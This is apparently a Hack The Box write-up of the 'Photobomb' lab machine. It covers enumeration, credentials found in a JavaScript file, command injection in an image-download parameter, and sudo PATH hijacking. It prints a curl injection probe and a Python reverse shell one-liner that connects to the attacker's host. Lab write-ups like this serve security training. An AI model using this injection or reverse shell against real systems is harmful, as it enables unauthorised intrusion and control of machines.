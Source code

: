 # Hack-The-Box-writeups
Photobomb
1. Enumeration 
Let's start with a Nmap scan to discover services and open ports running on this machine.
nmap -sV -Sc 10.10.11.182
 ![image](https://user-images.githubusercontent.com/107045536/216795769-eacf443c-edec-451c-8de5-7842fe1cbb16.png)
There are only two open ports, port 22 and port 80 
- Web content and Subdomain enumeration don’t show anything  

2. Port 80 enumeration
photobomb.htb
 ![image](https://user-images.githubusercontent.com/107045536/216795779-e44da4f3-ff11-4552-a2a6-064c47d74f7a.png)
This link redirects to /printer which is asking for a username and password that we don’t know.
 ![image](https://user-images.githubusercontent.com/107045536/216795784-25623989-36b0-4b9b-8439-b98cc199a1b7.png)
Photobomb.htb source code 
 ![image](https://user-images.githubusercontent.com/107045536/216795788-83e10377-456b-4725-a7b4-91f901d9e78f.png)

Let's take a look at this JS file: 
![image](https://user-images.githubusercontent.com/107045536/216795793-e784324b-a978-4ced-a385-62579ce53b86.png)

Now let's log in with those credentials 
 ![image](https://user-images.githubusercontent.com/107045536/216795797-7d1aee88-10c2-4092-8db9-ace3991fdeac.png)

The website offers "DOWNLOAD PHOTO TO PRINT"
Let's intercept the request using Burpsuite  
 ![image](https://user-images.githubusercontent.com/107045536/216795804-dd8db109-55a5-4f52-a491-d23078e0fce1.png)

It seems vulnerable to command injection
Let's test for command injection, start "python web server" 
1. python3 -m http.server
2. inject ;curl+10.10.x.x:8000 to each parameter 
 ![image](https://user-images.githubusercontent.com/107045536/216795809-501793d1-c82c-40a0-8bab-86d329a11bf9.png)
We found that only the filetype parameter is vulnerable 
Lets create some reverse shell: https://www.revshells.com/ 
export+RHOST="10.10.14.34";export+RPORT=5555;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'
Start the Netcat listener 
![image](https://user-images.githubusercontent.com/107045536/216795815-f88dbd93-f881-49b4-b084-f2bfacede87a.png)
![image](https://user-images.githubusercontent.com/107045536/216795821-274fe779-ae03-4388-a34e-74cd087113c3.png)

3. Privilege Escalation
Lets upgrade our shell 
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'

Before running linpeas lets try the classic ways 
 ![image](https://user-images.githubusercontent.com/107045536/216795825-bc62f6e6-98a7-4f70-acec-4ca50402d139.png)

User wizard can run "cleanup.sh" with "sudo" privilege 



Lets check this script
 ![image](https://user-images.githubusercontent.com/107045536/216795830-dee8d555-5cd8-4bf4-9142-82fc036a8cf2.png)

So there are two interesting, “cd” and "find" called without their absolute path. so, we can exploit this misconfiguration by changing the "PATH variable"   
Lets create "cd" file that contains '/bin/bash'  and give 777 permission
 ![image](https://user-images.githubusercontent.com/107045536/216795832-47d85810-fd6b-44af-a32c-02d770ad60c7.png)

Add /tmp to the beginning of the PATH variable 
 ![image](https://user-images.githubusercontent.com/107045536/216795835-38437609-6b9d-415c-b709-ff9a7d0c9569.png)
![image](https://user-images.githubusercontent.com/107045536/216795840-455f1338-9933-4c2c-9a39-3554b565b9a9.png)




